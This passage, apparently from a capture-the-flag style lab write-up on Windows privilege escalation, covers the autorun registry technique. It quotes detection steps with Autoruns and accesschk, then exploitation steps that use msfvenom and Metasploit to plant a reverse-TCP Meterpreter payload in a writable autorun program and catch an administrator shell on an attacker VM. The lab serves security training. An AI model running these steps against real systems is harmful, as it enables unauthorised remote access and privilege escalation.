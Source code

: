 
And the other non-default user is **TCM**.


### <span style="color: var(--link-color);">[Task 3] - Registry Escalation - Autorun </span>
In this task, we use [Autorun](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns) utility that is used to set auto-starting programs upon boot.

> Detection
> 
> Windows VM
> 
> 1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
> 2. In Autoruns, click on the ‘Logon’ tab.
> 3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
> 4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
> 5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.
> 
> 
> Exploitation
> 
> Kali VM
> 
> 1. Open command prompt and type: msfconsole
> 2. In Metasploit (msf > prompt) type: use multi/handler
> 3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
> 4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
> 5. In Metasploit (msf > prompt) type: run
> 6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
> 7. Copy the generated file, program.exe, to the Windows VM.
> 
> Windows VM
> 
> 1. Place program.exe in ‘C:\Program Files\Autorun Program’.
> 2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.
> 
> Kali VM
> 
> 1. Wait for a new session to open in Metasploit.
> 2. In Metasploit (msf > prompt) type: sessions -i [Session ID]
> 3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid


##### Detection
We use the **Autorun64.exe** tools to view the programs that are configured to start automatically: